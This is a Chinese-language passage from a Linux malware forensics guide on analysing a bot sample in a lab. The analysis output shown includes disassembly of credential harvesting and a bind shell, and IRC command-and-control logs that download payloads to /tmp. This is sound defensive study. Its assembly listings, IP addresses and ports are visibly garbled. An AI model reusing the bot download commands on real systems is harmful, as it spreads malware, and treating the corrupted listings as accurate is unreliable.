.text:080506A3 push ebx; Drawable

.text:080506A4 push eax; Display *

.text:080506A5 call ds:XGeometry

.text:080506A7 add esp, 30h

.text:080506A8 push eax; int

.text:080506A9 push fffffff; unsigned _32

.text:080506AB push dwordptr [edi]; unsigned int

.text:080506AC mov dwordptr [edi]; unsigned int

.text:080506AD push 0

.text:080506AE push eax; int

.text:080506AF push edi; int

.text:080506B0 lea eax, [esp+48h+var_20]

.text:080506B1 call ds:XGetImage

ext:080506B4 add esp, 20h

.text:080506B5 test eax, eax

.text:080506B6 mov ebx, eax

.text:080506B7 js short loc_80543

.text:080506B8 cmp dwordptr [edi], 0

.text:080506B9 jnz short loc_80545

.text:080506BA mov dwordptr [edi], 0

.text:08050BC loc_80545: push eax; CODE XREF: CaptureScreen+79j

.text:080506CD push eax

.text:080506D0 mov eax, edi

.text:080506D1 sub esp, ebp

.text:080506D2 push ebx

.text:080506D3 push [esp+34h+arg_0]

.text:080506D4 call SaveImageToBitmap

```

图 6.54—使用`IDA Pro`检查函数轨迹

## 预期网络轨迹、数字印象与痕迹证据

- 除了确定恶意样本执行非法功能的方式外，还应使用`IDA Pro`来识别引入到受害者系统的数字痕迹证据。
- 特别是使用`IDA Pro`定位恶意软件尝试下载、访问和/或执行的函数和引用。例如图 6.55，恶意软件样本在受害者系统上调用了 shell (`/bin/sh` 和 `/bin/sh`) 以继续攻击者的搜索活动。

```asm

push ebp -5ch

var_Ch dword ptr -0Ch

arg_sh dword ptr 8

push esp

mov bp, esp

sub esp, 48h

mov eax, [ebp+0]

mov [ebvar_S2], eax

mov eax, eax

mov [ebvar_C1], eax

or eax, eax

push [ebname], offset alinksh ;"/bin/sh"

push [eax], name

call eax

tor eax, eax

test al, al

je

short loc_804E4EE

```

```asm

mov [ebname], offset alinksh ;"/bin/bash"

loc_804E4EE

mov eax, [ebname]

call cfFileExists ;name

test eax, eax

test al, al

je

short loc_804E4EE

```

**图 6.55**-使用`IDA Pro`识别潜在的数字印象和痕迹证据；将在受害者系统上调用的绑定 shell

- 同样，汇编指令可能会揭示受害者系统中执行过程中可能被恶意软件扫描的区域——这通常出现在窃取凭据、文件和其他外泄物品的样本中。例如图 6.56，汇编显示恶意软件

```asm

loc_804F4EE

mov eax, [ebname]

call cfFileExists ;name

test eax, eax

mov eax, 0

mov eax, [ebp+Echh+ebvar_63]

call LoadMozillaillike

tor eax, eax

test al, al

je

short loc_80514FC

```

```asm

push esp

mov bp, esp

sub esp, 40h

mov eax, [ebp+0] ;"HOME"

push eax

call eax

tor eax, eax

push offset as_thunderbolt ;"/thunderbolt/profiles.ini"

push offset as_mozillaFirefox ;"/mozilla/firefox/profiles.ini"

call eax

tor eax, eax

test al, al

je
```


**图 6.56**-使用 IDA Pro 识别潜在的数字印象和痕迹证据

# Linux 系统恶意软件取证现场指南

恶意软件将访问受害系统的 Mozilla Thunderbird 和 Firefox 配置以寻找凭据。

## 调查考虑

- 这种访问留下了数字印象（在某些情况下为数字痕迹）证据，为数字调查人员提供了时间上的关系上下文指导。应当对受害者实验室系统上识别出的区域进行检查，以确认其功能并证实调查中的其他证据（例如，在现场的实时响应访谈中，你从受害者处获知电子邮件凭据已被破坏）。
- 通过此过程收集的情报应与实时响应和事后取证相结合，以确定修复的考虑因素。

## 与恶意样本的交互与操纵：探索并验证功能与目的

- 在确定目标恶意样本的功能方式和手段后，操纵样本或实验室环境，以便与样本交互并验证其功能。

与其他涉及监控、数据分析和从目标恶意样本中提取的分析阶段不同，此分析阶段侧重于像攻击者一样思考。特别是，重点在于恶意样本是如何被使用的，以及其功能是如何被调用的。

- 为了实现这一点，数字调查人员可以通过以下方式操纵目标恶意样本：
  - 触发引导
  - 使用客户端应用程序

### 触发事件

回想本章早些时候，执行轨迹是恶意代码样本与受害者系统及外部网络资源之间的行为和交互——从执行点开始直到感染的生命周期。作为轨迹的一部分，触发事件是那些调用样本行为或功能的事件。

- 触发事件可能由受害者在感染系统上的行为引起（例如在键盘上打字——触发键记录记录功能），或者通过从远程源引入数字痕迹证据引起（例如下载为样本提供指令的额外恶意文件）。
- 凭借通过动态和静态分析收集的信息，数字调查人员可以操作实验室环境，以复制目标样本使用的特定触发事件。

# 第 6 章 恶意样本分析

虽然触发事件相对于特定样本样本，但某些示例包括：

- 打开并使用特定的客户端应用程序
- 检查受害者系统上特定文件是否存在
- 模拟受害者与系统的交互，如打开浏览器窗口
- 在 Web 表单中输入信息
- 导航到某些 URL
- 设置样本寻求的额外网络资源

## 调查考虑

- 应当检查与受害者系统上特定文件相关的触发事件，以确认其功能并证实调查中的其他证据。

### 客户端应用程序

- 某些类型的恶意软件由客户端应用程序接口控制。此外，即使客户端应用程序可供下载，它们通常也会被攻击者修改，带有额外的后门和恶意功能，以感染下载该程序的个人系统。在进行此类研究时要格外小心。

- 可以通过恶意代码研究网站获取“清洁”且“可靠”的客户端软件版本。将其安装在独立的实验室系统中，以模拟远程攻击者。

- 一旦客户端应用程序已在实验室环境中完成配置，即可在受害者实验室系统中执行恶意样本，以触发样本连接到远程客户端。

## 调查考虑

- **利用并验证攻击功能**。通过恶意代码样本深入开发并获取受害者系统的控制权，探索程序的性质和能力。进一步，在获得受害者系统的控制权后，从“攻击者”系统执行可用命令和功能，以评估样本和客户端的攻击能力。如图 6.57 所示，受感染系统受库级攻击者 IRC 命令与控制结构的控制，并指示对虚拟受害者系统发起拒绝服务攻击；结果攻击在 EtherApe 的网络可视化图中显示。

## 第 6 章 | 恶意软件样本分析

- 评估额外功能和威胁范围。除了在虚拟受害者系统上执行攻击以验证恶意程序的功能外，还要探索其他命令及其对受害者系统的影响，以评估该程序的威胁性。

- 例如，观察该程序的远程管理或木马能力，可能包括：
- 统计系统上反侦视计数的能力；
- 遍历受感染系统的硬盘和外接存储设备，以发现感兴趣的项；
- 向系统下载额外的利用程序和工具；
- 从被攻破的系统中泄露数据。

- 为了验证这些能力，根据恶意软件所需的资源调整实验室环境，以确保能够实现执行轨迹和完整功能；通过这样可以准确模拟攻击者的技术。在实验室中，可以利用目标样本的“下载”功能下载额外的恶意软件（ior），以继续恶意软件的感染循环。

```
IF* GET http://192.168.110.137/apache2-default/ior /tmp/ior

[18:57] <lab> IF* GET http://192.168.110.137/apache2-default/tmp/ior

[18:57] -FRFQ- Receiving file.

[18:57] Saved as /tmp/ior
```

> 图 6.58-通过 IRC 命令与控制利用恶意软件样本的 GET/Web 功能来确认样本符合性

## 事件重构与取证审查：运行后数据分析

- 在分析了可疑恶意软件样本并对程序的功能和缺点有了更清晰的认识后，重构与恶意代码样本相关的全部取证痕迹。检查网络、系统和样本的印象证据，以确定样本在被执行和利用后对系统产生的影响。

- 关联痕迹并重构样本是如何与主机系统及网络进行交互的。特别是，检查在执行轨迹过程中通过被动和主动监控工具收集的数字印象和追溯证据，包括：

### 被动监控痕迹
- 文件系统
- 进程（以及 `/proc`）

## LINUX 系统恶意软件取证实战指南

- 主动监控痕迹
- 进程
- 文件系统
- 系统调用
- 网络活动（包括 NIDS）
- 物理内存痕迹

## 示例事件重构场景

为了更清晰地理解事件重构过程，将特别使用示例场景进行演示。调查步骤和检查的痕迹将通过分析木马样本对受感染受害者系统产生的影响这一视角进行审视。该场景的基本事实包括：

- 在对目标样本进行动态和静态分析期间，你确定它为一种“僵尸（bot）”恶意混合软件，该软件会导致受感染的系统加入一个更大的受感染系统“军队”（或“僵尸网络”），并被攻击者（称为“僵尸控制者”或“僵尸主宰”）利用。你的分析显示，该恶意软件尝试连接到远程资源以僵尸网络的命令与控制（C2）结构。
- 你获悉受害者系统上的执行轨迹创建了一个新进程并在 `/proc` 中留下了痕迹。此外，该样本需要大量的环境调整和仿真才能完成完整轨迹及其生命周期。
- 为了进行分析，将样本木马样本运行在仿真的受害者实验室系统（Ubuntu Linux 12.10 VMWare 虚拟机）上，并建立了一个服务器系统（Ubuntu 12.10 VMware 虚拟机）以便于环境仿真和轨迹链。
- 以此案例场景的事实为基础，可以按照本节中的指南重构与恶意代码样本相关的全部取证痕迹。

## 被动监控痕迹

在受感染的受害者系统上执行并与恶意代码样本交互后，评估样本对系统产生的影响。特别是，将执行后的系统状态与启动程序之前的系统状态（或“原始”状态）进行比较。

- 回顾在执行恶意代码样本之前，通过对系统状态进行快照来建立基准系统环境。
- 一旦完成恶意样本的动态分析，通过将运行后的系统状态与主机完整性监控工具的快照进行对比。

## 第 6 章 | 恶意样本分析

- 例如，在运行示例场景中的木马样本并比较系统快照后，文件完整性监控 `tripwire` 捕获了受害者系统上的目录创建、执行文件和 `/proc` 条目（图 6.59）。

```
Note: Report is not encrypted. <modified for brevity>

TripWire(R) 2.3.0 Integrity Check Report

Report generated by: root

Report created on: Thu 18 July 2013 19:35:16 PDT

Date last updated on: Never

Report Summary:

================================

Host name: MalwareLab

Host IP: 127.0.0.1

Host ID: None

Policy file used: /etc/tripwire/tw.pol

Configuration file used: /etc/tripwire/tw.cfg

Database file used: /var/lib/tripwire/MalwareLab.twd

Command line used: tripwire -m c
```
Rule Name: Devices & Kernel information (/proc)
Severity Level: 10

```
Added Objects:
Added object name: /proc/8646
Added object name: /proc/8646/root
Added object name: /proc/8646/task
Added object name: /proc/8646/task/8646
Added object name: /proc/8646/task/8646/root
Added object name: /proc/8646/task/fd
Added object name: /proc/8646/task/1
Added object name: /proc/8646/task/3
Added object name: /proc/8646/task/0
Added object name: /proc/8646/task/2
Added object name: /proc/8646/task/4
Added object name: /proc/8646/task/stat
Added object name: /proc/8646/task/auv
Added object name: /proc/8646/task/statm
Added object name: /proc/8646/task/seccomp
Added object name: /proc/8646/task/exe
Added object name: /proc/8646/task/maps
Added object name: /proc/8646/task/attr
Added object name: /proc/8646/task/current
Added object name: /proc/8646/task/prev
Added object name: /proc/8646/task/exec
Added object name: /proc/8646/task/fdcreate
Added object name: /proc/8646/task/keycreate
Added object name: /proc/8646/task/sockcreate
Added object name: /proc/8646/task/wchan
Added object name: /proc/8646/task/cpuuset
Added object name: /proc/8646/task/oom_score
Added object name: /proc/8646/task/oom_adj
Added object name: /proc/8646/task/mem
Added object name: /proc/8646/task/environ
Added object name: /proc/8646/task/cwd
Added object name: /proc/8646/task/mounts
Added object name: /proc/8646/task/cmdline
Added object name: /proc/8646/fd
```

> 图 6.59-tripwire 捕获的文件变化

| 对象详情 | 对象详细信息 |

| :--- | :--- |

| Added object: /proc/8646/fd/1 | Added object name: /proc/8646/fd/3 |

| Added object name: /proc/8646/fd/0 | Added object name: /proc/8646/fd/2 |

| Added object name: /proc/8646/fd/4 | Added object name: /proc/8646/task/stat |

| Added object name: /proc/8646/auxv | Added object name: /proc/8646/stat_ |

| Added object name: /proc/8646/ecomp | Added object name: /proc/8646/exe |

| Added object name: /proc/8646/maps | Added object name: /proc/8646/attr |

| Added object name: /proc/8646/attrcurr | Added object name: /proc/8646/prev |

| Added object name: /proc/8646/0ec | Added object name: /proc/8646/fscreate |

| Added object name: /proc/8646/attrkeycreate | Added object name: /proc/8646/wchan |

| Added object name: /proc/8646/cpuset | Added object name: /proc/8646/com_score |

| Added object name: /proc/8646/com_adj | Added object name: /proc/8646/mem |

| Added object name: /proc/8646/smaps | Added object name: /proc/8646/status |

| Added object name: /proc/8646/environ | Added object name: /proc/8646/cmd |

| Added object name: /proc/8646/mounts | Added object name: /proc/8646/cmdline |

| Added object name: /proc/8646/mountstats | |

## 主动监控产物

- 为了获得全局上下文，将通过主动监控收集的数据与被动监控的数据进行对比。

- 跟踪进程创建、文件系统和 `/proc` 变化

- 确认受影响系统上的数字标识和溯源证据

- 识别数据集之间的任何不一致或异常情况

图 6.61 和 6.62 显示了由木马样本生成的恶意样本的文件系统活动——这些由 GLSOF 和 Mortadelo 捕获。


图 6.61—GLSOF 监控期间捕到的文件系统活动


图 6.62—使用 Mortadelo 进行主动监控

## 分析捕获的网络流量

作为一个一般原则，检查运行后的网络数据以重构场景行为和攻击事件有五个目标：

- 概览捕获的网络内容，以识别相关或异常活动以及探测位置。

- 回放并跟踪相关或异常的流量事件。

- 深入了解网络轨迹以及相关的网络印象和溯源证据。

- 必要时对特定数据包和流量序列进行细粒度检查。

- 如果需要，在网络流量中搜索特定的趋势或实体。

有许多 Linux 网络分析和解码工具可以帮助数字调查人员完成这些任务。用于此类分析的一些常用工具包括：

- Wireshark（在本章前面已讨论过）

- RUMINT97（一种取证可视化工具）

- Chaosreader98（一种网络取证分析工具）

- Xplico99（一种取证分析工具）

- Network Miner100（一种取证分析工具）

数字调查人员可以使用多种工具获取所收集流量的概述：

- 命令行工具如 `capfinos`,101 `tcptrace`,102 和 `tcpd-stat`103 提供了有关数据包捕获的统计信息。

- 同样，Wireshark 提供了多种选项以图形化方式显示网络流概述，如图 6.63 所示的图形分析。

> 97 有更多关于 RUMINT 的信息，请访问 http://rumint.org/

> 98 有更多关于 Chaosreader 的信息，请访问 http://chaosreader.sourceforge.net/

> 99 有更多关于 Xplico 的信息，请访问 http://www.xplico.org/

> 100 有更多关于 Network Miner 的信息，请访问 http://www.netresec.com/?page=Blog&month=2011-12&post=No-more-Wine-NetworkMiner-in-Linux-Mono.

> 101 有更多关于 capfinos 的信息，请访问 http://www.wireshark.org/docs/man-pages/capfinos.html。

> 102 有更多关于 tcptrace 的信息，请访问 http://www.tcptrace.org/

> 103 有更多关于 tcpdstat 的信息，请访问 http://staff.washington.edu/dittrich/talks/core02/tools/tools.html; http://www.sonycsl.co.jp/~kjc/papers/freenix2000/node14.html。

## 第 6 章 恶意样本分析

# 485


图 6.63-Wireshark 图形分析功能

- 此外，为了获取与系统事件整体相关的网络轨迹以及生成的数字印象取证可视化解决方案如 RUMINT.104。RUMINT 为调查人员提供了通过多种不同的可视化方案查看网络流量的能力，这些方案可以结合使用，提供替代的上下文（图 6.64）。这在受害者上进行了一系列环境调整时特别有用。


图 6.64-RUMINT 数据视图配置


> 104 在编写时，RUMINT 原生并不在 Linux 上运行；要在 Linux 分析系统上安装并运行它，必须安装 WINE (`http://www.winehq.org/`)。


在图 6.65 中，*Byte Frequency*（字节频率）视图为数字调查提供了协议活动和数据传输的高级视图——有助于识别数据网络流量模式。

跟踪网络轨迹证据与受害者系统产生的数字印象和溯源证据进行对比。这在分析从远程资源检索附加文件的模块化恶意代码时尤为重要。

- 在获取流量概述后，深入探测并提取与样本相关的流量，并在需要时回放流量会话。可以使用 Elasticsearch 完成此，`tcptrace` 和 `tcpflow` 也可以。
- 对于网络流量的回放，一个非常有用的工具是 Chaosreader，它是一个免费开源 Perl 工具，可以跟踪 TCP 和 UDP 会话，并从网络数据包捕获中获取应用数据。
- Chaosreader 还可以以“独立”模式运行，其中调用 `tcpdump` 或 `snoop`（如果主机上已安装）来创建日志文件并进行处理。

## 恶意样本分析

```
root@MalwareLab:home/malware# chaosreader -i suspicious-file.pcap
Chaosreader ver 0.94
Opening file, /home/malware/suspicious-file.pcap
Reading contents, 100% (688123/68123)
Reassembling packets, 100% (4086/4114)
Creating files...
Num Session(host: <host:port> Service
473 172.166.135:47898, 172.166.136:6667  ircd
757 172.166.135:47921, 172.166.136:6667  ircd
057 172.166.135:33304, 172.166.136:6667  ircd
771 172.166.135:47931, 172.166.136:6667  ircd
052 172.166.130:57156, 172.166.218:6667  ircd
830 172.166.131:37212, 172.166.130:6667  ircd
780 172.166.130:33008, 172.166.133:6667  http
688 172.166.130:48092, 172.166.133:6667  ircd
722 172.166.130:48123, 172.166.133:6667  ircd
025 172.166.130:51577, 140.247.60:80
011 172.166.130:36522, 172.166.130:39:80  http
447 172.166.135:47882, 172.166.133:6667  ircd
739 172.166.130:48138, 172.166.133:6667  ircd
065 172.166.130:57159, 204.218.102:6667  ircd
308 172.166.130:44779, 172.166.132:80  http
...
index.html created.
```

图 6.66-通过 Chaosreader 解析数据包捕获

- 要通过 Chaosreader 处理捕获文件，必须指向图 6.66 所示的目标文件。Chaosreader 读取文件并创建单独会话。
- 在解析数据时，Chaosreader 显示会话日志，包括会话名称、相应的网络节点和端口以及相应的的服务。
- 解析所有会话后，Chaosreader 生成一个 HTML 文件，链接到所有会话，包括 telnet、IRC、X11 和 VNC 会话。同样地，流量会话

Chaosreader 报告

File_name.file 关于捕获 tcpdump 的报告。创建于 Jul 18 19:37:35 2013

Image Report -查看 GET 和 POSTS 的报告。

GET Report（空）-查看 HTTP GET 和 POSTS 的报告。

POST Report -查看生成的报告。

TCP/UDP.../ Sessions:

| No | Date | Source | Protocol | Bytes In | Bytes Out | Session | Duration |
|---|---|---|---|---|---|---|---|
| 732 | Jul 18 19:36:05 2013 | 172.166.130.662 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0732.icrd | 0 seconds |
| 733 | Jul 18 19:36:05 2013 | 172.166.130.663 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0733.icrd | 0 seconds |
| 734 | Jul 18 19:36:05 2013 | 172.166.130.664 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0734.icrd | 0 seconds |
| 735 | Jul 18 19:36:05 2013 | 172.166.130.665 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0735.icrd | 0 seconds |
| 736 | Jul 18 19:36:05 2013 | 172.166.130.666 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0736.icrd | 0 seconds |
| 737 | Jul 18 19:36:05 2013 | 172.166.130.667 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0737.icrd | 0 seconds |
| 738 | Jul 18 19:36:05 2013 | 172.166.130.668 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0738.icrd | 0 seconds |
| 739 | Jul 18 19:36:05 2013 | 172.166.130.669 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0739.icrd | 0 seconds |
| 740 | Jul 18 19:36:05 2013 | 172.166.130.670 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0740.icrd | 0 seconds |
| 741 | Jul 18 19:36:05 2013 | 172.166.130.671 | 172.166.130.667 | tcp | 0 bytes | 4058 bytes | session_0741.icrd | 43 seconds |
| 742 | Jul 18 19:36:05 2013 | 172.166.130.672 | 172.166.130.667 | tcp | 0 bytes | 0 bytes | session_0742.icrd | 0 seconds |

## 第 6 章 | 恶意样本分析

```
malwarelab@malwarelab:~/home/malwarelab$ ngrep -I suspicious-file.pcap -q "xshell"
input: suspicious-file.pcap
匹配: xshell
```

```
T 172.16.130:36539 -> 172.16.133:66667 [AP]
PRMSG #botz !*S GET http://172.16.132/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:58665 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.132/xshell/xshell...

T 172.16.130:36539 -> 172.16.133:66667 [AP]
PRMSG #botz !*S GET http://172.16.132/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:58665 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.132/shell/xshell...

T 172.16.130:36539 -> 172.16.133:66667 [AP]
PRMSG #botz !*S GET http://172.16.132/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:58665 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.132/de11/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:33062 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.17130/apache2-default/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:48139 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.17130/apache2-default/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:48138 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.17130/apache2-default/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:48139 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.16130/apache2-default/xshell /tmp/xshell...

T 172.16.133:66667 -> 172.16.130:48139 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.16130/apache2-default/xshell /tmp/xshell...

T 172.16.130:48138 -> 172.16.133:33062 [AP]
!lab!-bot1@172.16.132 PRMSG #botz !*S GET http://172.16.16130/apache2-default/xshell /tmp/xshell...

T 172.16.130:48138 -> 172.16.133:6667 [AP]
NOTICE lab Saved as /tmp/xshell.
```

图 6-8-使用 ngrep 搜索网络追踪证据

# 490 Linux 系统恶意软件取证指南

```
172.16.160.37213 >> 172.16.160.80 [AP]
GET /xhtml HTTP/1.1
User-Agent: Opera/9.80 (X11; Linux) Presto/2.12.
Host: 172.16.160.13
Accept: text/html, application/xml, image/png, image/webp, image/gif
Accept-Language: en-US;q=0.9
Accept-Encoding: gzip, deflate
Connection: Keep-Alive

172.16.160.37213 >> 172.16.160.80 [AP]
HTTP/1.1 404 Found
Date: Sun, 14 Jul 02:15:06 GMT
Server: Apache/2.2.3 (Ubuntu)
PHP/5.2.1
Content-Length: 292
Keep-Alive: timeout=15
Content-Type: text/html; charset=iso-8859-1
<!DOCTYPE HTML>
<html><head><title>404 Found</title></head>
<body>Requested URL /shell was not found on this server.<address>Apache/2.2.3 (Ubuntu)
PHP/5.2.1 Server at 80</address></body></html>

172.16.160.37213 >> 172.16.160.80 [AP]
GET /xhtml HTTP/1.1
User-Agent: Opera/9.80 (X11; Linux) Presto/2.12.3.
Host: 172.16.160.13
Accept: text/html, application/xml, image/png, image/webp, image/gif
Accept-Language: en-US;q=0.9
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

`ngrep` 识别术语并显示与该术语相关的输出。可以使用 Wireshark 的“Find Packet”功能对数据包捕获进行字符串搜索（图 6.69）。

图 6-68—捕获

图 6-69—Wireshark Find Packet 功能

## 第 6 章 | 恶意样本分析

## 需要考虑的其他工具

噬 包捕获分析

- **`tcpdump`**: 由 Nick Harbour 编写

### 分析系统调用

另一个执行后重建任务是对嫌程序执行的系统调用进行集体审查，以及这些调用与分析或事件重建期间发现的其他遗迹之间的关系。SystemTap 等工具通过不同的捕获摘要提供了收集和分析系统调的方法，这是识别恶意样本在运行时调用的比例和类型的极佳概述。

要确定运行进程（在指定时间段内）系统调用总数以比较活动进程，可以使用这些脚本：

| 脚本 | 功能 | 来源 |
| :--- | :--- | :--- |
| `profile.stp` | 识别用户空间运行的进程以及相应的系统调用数量。脚本默认捕获 10 秒，但可以修改脚本中的计时器（图 6.70）。 | `http://www.ibm.com/developers/linux/library/systemtap/` |
| `syscalls_by_pid.stp` | 按 PID 计算系统调用。此脚本收集系统上的所有系统调用；退出时，从大到小列出每个 PID 执行的系统调用次数。 | `http://source.org/systemtap/examples/process/syscalls_by_pid.stp` |
| `syscalls_by_proc.stp` | 按进程/执行文件计算系统调用。此脚本捕获系统上的所有系统调用；退出时，从大到小列出每个进程/执行文件执行的系统调用次数。 | `http://source.org/systemtap/examples/process/syscalls_by_proc.stp` |
| `syscall-times` | 此组合/SystemTap 脚本用于测量系统调用次数和时间。脚本可以校准过滤 PID、进程名和用户。 | `http://source.org/systemtap/examples/process/syscalltimes` |
| `topsys.stp` | 每 5 秒间隔列出系统前 20 个系统调用（以及相应的调用次数）。 | `http://source.org/systemtap-Beginners_Guide/6/html/topsys#topsys` |
| `function-callcount.stp` | 揭示调用的函数名称以及采样时间内每个函数调用的次数（按字母顺序）。 | `https://access.redhat.com/site/documentation/en-US/Red_Hat_Enterprise_Linux/6/html/systemtap_Beginners_Guide/mainsect-profiling.html` |

```
root@MalwareLab:/home/malwarelab$ stap profile.stp
系统调用监控 (10 秒)...
WARNING: 错误数量: 0, 跳过的探针: 1
gettimeofday = 42
poll = 21
sendto = 21
close = 28
socket = 23
connect = 18
open = 10
stat = 15
read = 10
munmap = 5
```

> 图 6.70—显示进程执行的系统调用数量的 SystemTap 脚本

## 第 6 章 | 恶意样本分析

在确定目标进程执行的系统调用数量后，使用额外的脚本进行分层分析以揭示并总结系统调用，如图 6.71 所示。对于此脚本，添加了恶意软件的进程名 `sysfile`，并将探针时间修改为 20 秒（默认为 10 秒）。


106 有关于脚本的更多信息，请访问 http://www.ibm.com/developerworks/linux/library/l-systemtap/。

107 http://manual.snort.org/node211.html.

# Linux 系统恶意软件取证领域指南

## 物理内存产物

物理内存可能包含各种数字印象和痕迹证据，包括恶意可执行文件、相关的系统相关数据结构以及恶意事件的残留物。在事件重建的范围内，内存分析的目标如下：

- 收集可用的元数据，包括进程详情、网络连接以及与恶意软件样本相关的其他信息，以便将其与在受害者实验室系统上识别出的其他数字印象和痕迹证据进行分析和比较。

- 针对已检查的恶意软件样本的任何特定已知细节进行关键词搜索。

- 寻找恶意代码内存注入和钩子技术的常见指标：见图 6.72，该图描述了在 SecondLook 中识别的 Jynx 根内核程序样本印象和痕迹证据。）


图 6.72-SecondLook 在物理内存中发现 Jynx 根内核程序的痕迹和印象证据

- 针对感兴趣的每个进程，从内存中恢复可执行文件以进一步分析。

- 针对感兴趣的每个进程，从内存中提取相关数据，包括相关的加密密钥和捕获的数据（如用户名和密码）。

- 提取与恶意代码安装及活动相关的 URL 等上下文细节。

- 对从内存中提取的信息进行时间性和关系分析，包括事件时间线和进程树图。

## 其他考虑因素

除了探索恶意代码样本的功能以评估其对受害者系统构成的威胁外，数字取证人员还可以采取额外步骤来探索执行样本后对系统产生的影响。

- 首先，可以（从不同的系统）对受感染系统进行后扫描，使用如 `nmap`.109 等实用程序来识别开放/监听的端口。为了在这部方面获得一些见解，了解系统基准实例上的开放/监听端口至关重要，这有助于破译哪些端口可能是由于启动可疑程序而打开的。

- 同样，可以通过漏洞评估工具（如 `OpenVAS`.110 或 `Nessus`.111）对系统进行探测，从而识别出恶意软件在系统中创建的漏洞。

- 数字取证人员通常不想在监控系统期间对受感染主机进行端口或漏洞扫描，因为扫描会在网络流量和 NIDS 告警日志中产生产物，从而污染监控结果。特别是扫描会使任何由样本产生的网络活动变得难以破译或与扫描流量混淆。

## 扫描根内核程序

数字取证人员在运行后分析期间评估受感染受害者系统可以采取的另一个步骤是搜索根内核程序产物。

- 这可以通过使用根内核程序检测工具对系统进行扫描来实现。这方面 Linux 方面一些流行的实用程序包括 `chrootkit`,112 `rootkit hunter` (`rhunter`),113 `unhide`,114 以及 `Rootcheck` 项目.115。

- 与在监控系统时进行端口和漏洞扫描的后果类似，在样本的行为分析过程中使用根内核程序扫描工具可能会导致系统完整性监控日志中出现假阳性。

> 109 有关 `nmap` 的更多信息，请访问 http://nmap.org。

> 110 有关 `OpenVAS` 的更多信息，请访问 http://www.openvas.org。

> 111 有关 `Nessus` 的更多信息，请访问 http://www.tenable.com/products/nessus。

> 112 有关 `chrootkit` 的更多信息，请访问 http://freecode.com/projects/chrootkit。

> 113 有关 Rootkit Hunter (`rhunter`) 的更多信息，请访问 http://rhunter.org/

> 114 有关 `unhide` 的更多信息，请访问 http://sourceforge.net/projects/unhide/

> 115 有关 `Rootcheck` 项目的更多信息，请访问 http://rootcheck.sourceforge.net/

## 数字病毒学：通过恶意软件分类和系统发育进行高级分析

在通过动态和静态分析获得关于恶意代码样本性质、目的和能力的更清晰认识后，通过识别其与其他样本的系统发育关系对样本进行编目和分类。

- 建立并维护一个经过编目和分类的恶意软件库是数字取证人员实验室中一项有价值且推荐的功能。库中经过仔细分类的恶意软件为比较和关联新样本提供了强大的资源。

- 编目和分类样本的库在数字取证人员实验室中具有多种益处：

    - 将每个恶意软件样本的捕获和报告信息格式化，增加分析和报告的一致性。

    - 当已进行分析时，可以将知识复用应用到新样本中，节省恶意软件分析的时间和精力，特别是在涉及加密和其他挑战时。

    - 以易于理解且能立即为他们的分析提供帮助的格式，与其他数字取证人员交换恶意软件细节。

    - 揭示恶意软件感染的趋势，这可能对于防御攻击有用。

    - 寻找相关恶意软件之间的关系，这可能为它们的起源、组成和开发提供见解。这种关联可能揭示同一个攻击者群体负责了多次事件。

恶意软件分类或对恶意软件样本进行编目分类，意味着通过文件分析、行为和静态分析来关联有关样本的信息，进而识别样本的性质、目的和能力——使数字取证人员能够将样本分归同类。恶意软件分类借鉴了生物分类学（即对生物进行分类的科学）。

- 在某些情况下，需要超越分类和鉴定来识别演化和特征的相似性。例如，在调查过程中，你可能会发现恶意软件变得更加复杂。在生物学中，系统发育是对演化关系的研究。

> 16 在生物学中，系统发育是对演化关系的研究。

## 第6 章 样本分析

已有若干关于恶意软件发育的研究，如下表所示。

| 研究者(s) | 研究模型 |

| :--- | :--- |

| Hayes, Weinstein, & Lakhotia | 使用自动生成的恶意软件发育 |

| Cesare & Xiang | 使用结构化控制流分类 |

| Wagener, State, & Dula | 行为分析 |

| Rieck, Holz, & Kassel | 入侵检测 |

| Digital Genome | 机器学习 |

| Ye, Chen, & Jiang | 使用集成学习分类 |

| Walenstein, Venable, Hayes & Lakhotia | 利用变之间的相似性 |

| Karim, Weinstein, & Lakhotia | 使用最大模式的恶意软件发育 |

| Gupta, Cuppi, Akella, & Barnard | 演化的实证研究 |

| Babić, Reynard, & Song | 自动分析

> 117 Hayes M, Weinstein A, Lakhotia A, 使用自动生成的恶意软件发育，Journal in Computer Virology, vol. 5, no. 4, pp. 335–343, 2009.

> 118 Journal in Computer Virology, 2009, volume. 5, no. 4.

> 119 澳大利亚并行与分布式计算同步会议 (AusPDC), 2010.

> 120 Journal in Computer Virology, vol. 4, no. 4, pp. 279–287.

> 121 第16次 ACM 病毒会议论文，2004, pp. 187–197.

> 122 入侵与恶意软件检测，计算机科学漏洞笔记，2008, vol. 5137, pp. 188–125.

> 123 第16次 ACM SIGKDD 知识发现与数据挖掘国际会议。

> 124 BlackHat DC 2007，http://www.blackhat.com/proceedings/bh-dc-07/Wainstein/bh-walenstein-venable-hayes-thompson-lakhotia.php, http://www.cas.louisiana.edu/srl/publications/2007

> 125 EICAR 2005 会议论文，http://www.cas.louisiana.edu/arun/papers/phylogeny-eicar2005.pdf.

